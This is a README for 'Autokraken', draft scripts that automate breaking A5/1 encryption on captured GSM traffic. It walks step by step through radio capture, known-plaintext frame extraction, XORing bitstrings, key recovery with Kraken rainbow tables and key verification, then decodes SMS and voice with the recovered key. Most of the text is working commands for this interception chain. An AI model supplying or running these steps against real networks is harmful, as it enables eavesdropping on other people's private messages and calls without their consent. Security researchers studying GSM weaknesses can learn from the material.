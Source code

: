# Autokraken

_Warning: those are currently dirty drafts.  It works for us but would need to be heavily reviewed to work any other platform._

A set of scripts to automate the cracking of captured GSM/G2 network traffic with Kraken, and to extract SMS and voice calls out of it.  This is not frequency hopping capable.

## Requirements

Few command line utilities

        which sed
        which awk
        which grep
        which cut
        which wc

Few packages for stage 1

        apt install python3 tcpdump tshark gr-gsm -y

Optionally `gsmframedecoder` when dealing with SI5,6 instead of idling frames, but then you would also need the legacy Airprobe code to get the HEX version of the bursts

And of course Kraken with ready to serve rainbow table indexes

## Introduction

You can separate stages 0,1 and 2,3 for resp. capturing and cracking.  Simply send the bitstring file from the former to the latter and proceed.

## Stage 0 - capture and get the cfile(s) ready

	arfcn=

        cd /root/KRAKEN/autokraken/stage0/
	./capture.bash $arfcn

## Stage 1 - define known plain-text frame

_requires GR-GSM and a cfile_

Extract 0C and find out about the SDCCH timeslot and subchannel to track

        cd /root/KRAKEN/autokraken/stage1/

	# gsm_a.dtap.msg_rr_type==0x3f
	./json0C $arfcn

	#./parse.py 0C $cfile.0C.json
	./grabIA $arfcn

	slot=
	sub=

Extract (TIMESLOT)S and look for idling frames around the Ciphering Mode Command

	./jsonXS $arfcn $slot

If you don't find the CMC it might be because there's hopping going on.  Look closer at the IA and hopping friends in SI1.

Check that's A5/1 we've got here and not A5/3.

Now seek for idling frames around the Ciphering Mode Command

	#./parse.py XS $cfile.${slot}S.json
	./grabCMC $arfcn $slot $sub

	plainframe=

Also have a look at Timing Advance in case it is not `x00` already.

Eventually send the bitstring file to the Kraken server.

	scp $cfile.${slot}S kraken:/root/capture/

## Stage 2 - define the cipher-text frames

_requires Kraken and the bitstring file_

	screen -S KRAKEN
	cd /root/KRAKEN/autokraken/stage2/
	string=/root/capture/$arfcn.cfile.1S
	echo $plainframe

Tune your path against Kraken and Utilities

        vi feedcrack.conf

	kraken=/root/KRAKEN/kraken

XOR plain bitstrings with cipher bitstrings

	#./getemptyframeplain $cfile.${slot}S $plainframe
	#./getemptyframecipher $cfile.${slot}S $plainframe
	./feedemptyframe $string $plainframe
	ls -lhF /root/capture/$arfcn.cfile.1S.*.emptyframe*

Feed those into Kraken interactivelty

	ls -lhF /dev/sdb2
	ls -lhF /root/KRAKEN/kraken/indexes/
	head /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234

	cd /root/KRAKEN/kraken/Kraken/
	./kraken ../indexes

	crack <xored bitstring>

## Stage 2 semi-automated

        cd /root/KRAKEN/kraken/Kraken/
        ./kraken ../indexes < /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234

## Stage 2 automated

	./crack $cfile.${slot}S $plainframe

## Stage 3 - verify the key

Tune the hardcoded path against Utilities

	cd /root/KRAKEN/autokraken/stage3/
	vi feedkc

	utilspath=/root/KRAKEN/kraken/Utilities

reach back to the previous frame number and xored bitstring to feed the key check

	./feedkc <xored bitstring> /root/capture/$arfcn.cfile.1S.$plainframe.emptyframe1234

COPY/PASTE THE KEY AND @ E.G.

	/root/KRAKEN/kraken/Utilities/find_kc <FOUND KEY> <BITOPS> <BURST FRAME NUMBER> <PREV BURST FRAME NUMBER> <PREV BURST XORED BITSTRING>

## Conclusion

You can now sniff into the ciphered text

	grgsm_decode --cfile=$cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--a5=1 --kc=KEY-HERE

## Resources

GSM Cracking: SMS w/ Kraken – Software Defined Radio Series #16
https://www.crazydanishhacker.com/gsm-cracking-sms-kraken-software-defined-radio-series-16/

